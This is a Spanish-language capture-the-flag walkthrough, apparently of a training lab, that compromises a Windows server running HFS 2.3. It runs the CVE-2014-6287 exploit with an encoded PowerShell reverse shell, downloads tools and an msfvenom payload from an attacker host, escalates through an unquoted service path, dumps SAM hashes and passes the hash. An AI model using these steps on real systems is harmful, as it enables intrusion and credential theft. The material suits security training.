




## Puertos abiertos

```
80/tcp    open  http               Microsoft IIS httpd 8.5
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
5985/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8080/tcp  open  http               HttpFileServer httpd 2.3
47001/tcp open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49157/tcp open  msrpc              Microsoft Windows RPC
49163/tcp open  msrpc              Microsoft Windows RPC
49164/tcp open  msrpc              Microsoft Windows RPC
```

### Servicio web 8080



**HTTP File Server** tambien conocido como HFS, es un servidor web gratuito diseñado especificamente para publicar y compartir archivos.

Buscando exploits

```
❯ searchsploit http file server 2.3
----------------------------------------------------------------------------------------------------- ----------------------------
 Exploit Title                                                                                       |  Path
----------------------------------------------------------------------------------------------------- ----------------------------
HFS (HTTP File Server) 2.3.x - Remote Command Execution (3)                                          | windows/remote/49584.py
HFS Http File Server 2.3m Build 300 - Buffer Overflow (PoC)                                          | multiple/remote/48569.py
Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbitrary File Upload                                       | multiple/remote/30850.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (1)                                  | windows/remote/34668.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)                                  | windows/remote/39161.py
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remote Command Execution                             | windows/webapps/34852.txt
Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)                                          | windows/webapps/49125.py
----------------------------------------------------------------------------------------------------- ----------------------------
```

Ejecutando exploit `windows/remote/49584.py`

**CVE-2014-6287**  
La función `findMacroMarker` en `parserLib.pas` en Rejetto HTTP File Server (aks HFS o HttpFileServer) `2.3x` antes de `2.3c` permite a atacantes remotos ejecutar programas arbitrarios a través de una secuencia% 00 en una acción de búsqueda.

```
❯ rlwrap python3 49584.py

Encoded the command in base64 format...

Encoded the payload and sent a HTTP GET request to the target...

Printing some information for debugging...
lhost:  10.9.102.237
lport:  4444
rhost:  10.10.24.158
rport:  8080
payload:  exec|powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -WindowStyle Hidden -EncodedCommand JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AOQAuADEAMAAyAC4AMgAzADcAIgAsADQANAA0ADQAKQA7ACAAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAIABbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7ACAAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsADAALAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAgACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAJABpACkAOwAgACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgASQBuAHYAbwBrAGUALQBFAHgAcAByAGUAcwBzAGkAbwBuACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACAAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABHAGUAdAAtAEwAbwBjAGEAdABpAG8AbgApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAIAAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACAAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACAAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACAAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA

Listening for connection...
listening on [any] 4444 ...
connect to [10.9.102.237] from (UNKNOWN) [10.10.24.158] 49234
whoami
steelmountain\bill
```

Ejecutando `WinPeas.exe`

```
[...]
???????????? Looking for AutoLogon credentials
    Some AutoLogon credentials were found           
aultUserName               :  bill                      
    DefaultPassword               :  PMBAf5KhZAxVhvqb                                                           
[...]
```

```
[...]
???????????? Interesting Services -non Microsoft-                                                                                      ? Check if you can overwrite some service binary or perform a DLL hijacking, also check for unquoted paths https://book.hacktricks.xyz/
windows/windows-local-privilege-escalation#services                
    AdvancedSystemCareService9(IObit - Advanced SystemCare Service 9)[C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe] 
- Auto - Running - No quotes and Space detected                                                                                        
    File Permissions: bill [WriteData/CreateFiles]                                                                                     
    Possible DLL Hijacking in binary folder: C:\Program Files (x86)\IObit\Advanced SystemCare (bill [WriteData/CreateFiles])           
    Advanced SystemCare Service
[...]
```

```
[...]
???????????? Checking Credential manager                                            
windows-vaultok.hacktricks.xyz/windows/windows-local-privilege-escalation#credentials-manager-                       
    [!] Warning: if password contains non-printable characters, it will be printed as unicode base64 encoded string  
                                                                                                                     
                                                                                    
     Username:              STEELMOUNTAIN\bill                                                                       
     Password:               PMBAf5KhZAxVhvqb                                                                        
     Target:                STEELMOUNTAIN\bill                                                                       
     PersistenceType:       Enterprise                                                                               
     LastWriteTime:         9/27/2019 5:22:42 AM                                                                     
[...]
```

```
[...]
???????????? Enumerating SSCM - System Center Configuration Manager settings                      
                                                                   
ity Packages Credentials Secur
  Version: NetNTLMv2                                               
  Hash:    bill::STEELMOUNTAIN:1122334455667788:439ca65d65e55fe08b47d4ae73d1d6c6:0101000000000000bb20b7049dc6d7014d64aae255fbb9a00000000008003000300000000000000000000000002000009bdb90716335ce9defe4c534733de7f540900a32697324d23c04d8907e6435f50a00100000000000000000000000000000000000090000000000000000000000 
[...]
```

**Verificando manualmente**  
Contraseñas guardadas

```
cmdkey /list

Currently stored credentials:

    Target: LegacyGeneric:target=STEELMOUNTAIN\bill
    Type: Generic 
    User: STEELMOUNTAIN\bill
```

Desde PowerUp

```
IEX(New-Object Net.WebClient).downloadString('http://10.9.102.237:8000/PowerUp.ps1')
Invoke-AllChecks           
```

Unquoted Service Path

```
ServiceName    : AdvancedSystemCareService9                                                                     
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe                                
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory} 
StartName      : LocalSystem                                                                                    
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>                      
CanRestart     : True                                                                                           
Name           : AdvancedSystemCareService9                                                                     
Check          : Unquoted Service Paths                                                                         
```

Comprobando servicio

```
cmd /c "sc qc AdvancedSystemCareService9"
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: AdvancedSystemCareService9
        TYPE               : 110  WIN32_OWN_PROCESS (interactive)
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
        LOAD_ORDER_GROUP   : System Reserved
        TAG                : 1
        DISPLAY_NAME       : Advanced SystemCare Service 9
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```

## Escalada de privilegios

```
❯ sudo msfvenom -p windows/reverse_shell_tcp lhost=10.9.102.237 lport=5555 -f exe > Advanced.exe
```

```
PS C:\Program Files (x86)\IObit>  cmd /c "icacls ."
. STEELMOUNTAIN\bill:(OI)(CI)(RX,W)
  NT SERVICE\TrustedInstaller:(I)(F)
  NT SERVICE\TrustedInstaller:(I)(CI)(IO)(F)
  NT AUTHORITY\SYSTEM:(I)(F)
  NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
  BUILTIN\Administrators:(I)(F)
  BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
  BUILTIN\Users:(I)(RX)
  BUILTIN\Users:(I)(OI)(CI)(IO)(GR,GE)
  CREATOR OWNER:(I)(OI)(CI)(IO)(F)
  APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
  APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(OI)(CI)(IO)(GR,GE)

Successfully processed 1 files; Failed processing 0 files
```

Tranfiero el exe malicioso

```
certutil.exe -f -urlcache -split "http://10.9.102.237:8000/Advanced.exe"
```

```
> dir

    Directory: C:\Program Files (x86)\IObit


Mode                LastWriteTime     Length Name                       
----                -------------     ------ ----                       
d----        10/21/2021   9:00 AM            Advanced SystemCare        
d----         9/26/2019  10:35 PM            IObit Uninstaller          
d----         9/26/2019   8:18 AM            LiveUpdate                 
-a---        10/21/2021  10:41 AM          0 Advanced.exe               
```

Detengo e inicio el programa para que se ejecute el archivo malicioso

```
cmd /c 'sc stop AdvancedSystemCareService9'

SERVICE_NAME: AdvancedSystemCareService9 
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 4  RUNNING 
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
cmd /c 'sc start AdvancedSystemCareService9'
```

```
❯ nc -lvnp 5555
listening on [any] 5555 ...
connect to [10.9.102.237] from (UNKNOWN) [10.10.15.81] 49219
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

## Post Explotación

Añadiendo a usuario `bill` al grupo `Remote Management Users` para obtener una sesión con **evil-winrm**

```
C:\Windows\system32>net localgroup "Remote Management Users" bill /add              
```

Podemos validar con `crackmapexec`

```
❯ cme winrm 10.10.15.81 -u bill -p PMBAf5KhZAxVhvqb
WINRM       10.10.15.81     5985   NONE             [*] None (name:10.10.15.81) (domain:None)
WINRM       10.10.15.81     5985   NONE             [*] http://10.10.15.81:5985/wsman
WINRM       10.10.15.81     5985   NONE             [+] None\bill:PMBAf5KhZAxVhvqb (Pwn3d!)
```




### Acceso por RDP

```
xfreerdp /u:bill /p:PMBAf5KhZAxVhvqb /v:10.10.15.81
```




### Dumpeo de la sam

```
reg save HKLM\system system.bak
reg save HKLM\sam sam.bak
```

```
❯ secretsdump.py -system system.bak -sam sam.bak local
Impacket v0.9.23.dev1+20210427.174742.fc72ebad - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x2af6e215fa8a94c388557346ae8ba771
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:53dbf27b0f37b1ef784c8a4768c0e9fa:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
bill:1001:aad3b435b51404eeaad3b435b51404ee:a3c2a771303f6e954077bcc663e89213:::
[*] Cleaning up... 
```

Validando el hash con `crackmapexec`

```
❯ cme smb 10.10.15.81 -u administrator -H "53dbf27b0f37b1ef784c8a4768c0e9fa"
SMB         10.10.15.81     445    STEELMOUNTAIN    [*] Windows Server 2012 R2 Datacenter 9600 x64 (name:STEELMOUNTAIN) (domain:steelmountain) (signing:False) (SMBv1:True)
SMB         10.10.15.81     445    STEELMOUNTAIN    [+] steelmountain\administrator 53dbf27b0f37b1ef784c8a4768c0e9fa (Pwn3d!)
```

Accediendo como administrador.




Otra forma de accesder por `rdp` es pasando el hash.

```
xfreerdp /u:bill /pth:a3c2a771303f6e954077bcc663e89213  /v:10.10.15.81
```
